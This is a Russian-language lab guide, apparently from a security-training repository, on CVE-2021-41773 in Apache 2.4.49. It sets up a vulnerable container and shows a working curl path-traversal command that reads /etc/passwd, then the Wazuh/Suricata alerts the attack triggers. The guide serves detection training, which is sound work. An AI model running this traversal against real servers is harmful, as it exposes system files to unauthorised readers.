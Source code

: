 # CVE-2021-41773

Ошибка была обнаружена в изменении нормализации путей в Apache HTTP Server 2.4.49. Если файлы за пределами этих каталогов не защищены обычной конфигурацией по умолчанию "require all denied", запросы на их чтение могут быть успешными.&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу http://ваш-ip:8080 будет доступна дефолтная страница с фразой "It works!"

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для воспроизведения уязвимости выполните команду:

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
